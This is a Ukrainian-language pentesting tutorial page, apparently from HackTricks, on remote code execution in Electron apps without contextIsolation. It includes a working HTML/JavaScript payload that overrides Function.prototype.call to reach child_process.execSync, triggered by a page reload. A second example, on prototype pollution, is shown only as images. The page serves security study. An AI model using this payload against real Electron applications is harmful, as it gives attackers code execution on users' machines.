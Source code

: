 # Electron contextIsolation RCE через внутрішній код Electron

{{#include ../../../banners/hacktricks-training.md}}

## Приклад 1

Приклад з [https://speakerdeck.com/masatokinugawa/electron-abusing-the-lack-of-context-isolation-curecon-en?slide=41](https://speakerdeck.com/masatokinugawa/electron-abusing-the-lack-of-context-isolation-curecon-en?slide=41)

Слухач події "exit" завжди встановлюється внутрішнім кодом, коли починається завантаження сторінки. Ця подія виводиться безпосередньо перед навігацією:
```javascript
process.on("exit", function () {
for (let p in cachedArchives) {
if (!hasProp.call(cachedArchives, p)) continue
cachedArchives[p].destroy()
}
})
```
{% embed url="https://github.com/electron/electron/blob/664c184fcb98bb5b4b6b569553e7f7339d3ba4c5/lib/common/asar.js#L30-L36" %}

![](<../../../images/image (1070).png>)

https://github.com/nodejs/node/blob/8a44289089a08b7b19fa3c4651b5f1f5d1edd71b/bin/events.js#L156-L231 -- Більше не існує

Тоді це переходить сюди:

![](<../../../images/image (793).png>)

Де "self" є об'єктом процесу Node:

![](<../../../images/image (700).png>)

Об'єкт процесу має посилання на функцію "require":
```
process.mainModule.require
```
Оскільки handler.call отримує об'єкт процесу, ми можемо перезаписати його для виконання довільного коду:
```html
<script>
Function.prototype.call = function (process) {
process.mainModule.require("child_process").execSync("calc")
}
location.reload() //Trigger the "exit" event
</script>
```
## Приклад 2

Отримати **об'єкт require з забруднення прототипу**. З [https://www.youtube.com/watch?v=Tzo8ucHA5xw\&list=PLH15HpR5qRsVKcKwvIl-AzGfRqKyx--zq\&index=81](https://www.youtube.com/watch?v=Tzo8ucHA5xw&list=PLH15HpR5qRsVKcKwvIl-AzGfRqKyx--zq&index=81)

Витік:

<figure><img src="../../../images/image (279).png" alt=""><figcaption></figcaption></figure>

Експлуатація:

<figure><img src="../../../images/image (89).png" alt=""><figcaption></figcaption></figure>

{{#include ../../../banners/hacktricks-training.md}}
